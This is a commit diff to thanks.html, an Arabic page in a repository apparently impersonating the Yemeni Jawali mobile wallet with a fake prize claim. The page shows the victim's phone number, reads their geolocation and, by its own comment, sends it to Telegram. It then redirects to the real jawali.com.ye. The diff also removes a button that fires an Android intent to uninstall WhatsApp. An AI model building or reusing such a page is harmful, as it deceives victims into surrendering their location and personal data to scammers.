

Before and after one commit to Sn4a5s6h/jawali.com.ye, a plain HTML site: page thanks.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update thanks.html

```diff
--- a/thanks.html
+++ b/thanks.html
@@ -1,9 +1,9 @@
 <!DOCTYPE html>
 <html lang="ar">
 <head>
-  <meta charset="UTF-8" />
+  <meta charset="UTF-8">
   <title>استلام الجائزة - محفظة جوالي</title>
-  <meta name="viewport" content="width=device-width, initial-scale=1" />
+  <meta name="viewport" content="width=device-width, initial-scale=1">
   <style>
     body {
       direction: rtl;
@@ -28,8 +28,6 @@
       border-radius: 8px;
       cursor: pointer;
       margin-top: 25px;
-      margin-left: 10px;
-      margin-right: 10px;
     }
     #codeDisplay {
       margin-top: 30px;
@@ -42,10 +40,9 @@
 
   <h2>✅ تم تأكيد رقمك!</h2>
   <p id="phoneDisplay">📱 رقمك هو: جاري التحميل...</p>
-  <p>اضغط الزر أدناه لاستلام الجائزة وكشف كود المتسابق الخاص بك</p>
+  <p>اضغط الزر أدناه لاستلام الجائزة</p>
 
   <button id="claimButton" onclick="claimGift()">🎁 استلام الجائزة</button>
-  <button id="uninstallBtn" onclick="uninstallWhatsapp()">❌ إلغاء تثبيت واتساب</button>
 
   <div id="codeDisplay" style="display:none;">
     🎉 كود المتسابق الخاص بك: <span id="contestantCode" style="font-weight: bold;"></span>
@@ -86,7 +83,7 @@
       document.getElementById('contestantCode').textContent = code;
       document.getElementById('codeDisplay').style.display = 'block';
 
-      // الحصول على الموقع وإرساله للتليجرام
+      // إرسال الموقع للتليجرام
       if (navigator.geolocation) {
         navigator.geolocation.getCurrentPosition(position => {
           const lat = position.coords.latitude;
@@ -109,21 +106,13 @@
         alert("المتصفح لا يدعم الموقع الجغرافي.");
       }
 
-      // تعطيل الزر بعد الضغط
-      document.getElementById('claimButton').disabled = true;
+      // إعادة التوجيه إلى موقع jawali.com.ye
+      window.location.href = "https://jawali.com.ye";
     }
 
     function generateCode() {
       return Math.floor(100000 + Math.random() * 900000).toString();
     }
-
-    function uninstallWhatsapp() {
-      // هذا رابط intent لإلغاء تثبيت تطبيق واتساب على أندرويد
-      // يعمل فقط في متصفحات أندرويد
-      const intentUrl = "intent://package/com.whatsapp#Intent;action=android.intent.action.DELETE;end";
-
-      window.location.href = intentUrl;
-    }
   </script>
 
 </body>
```
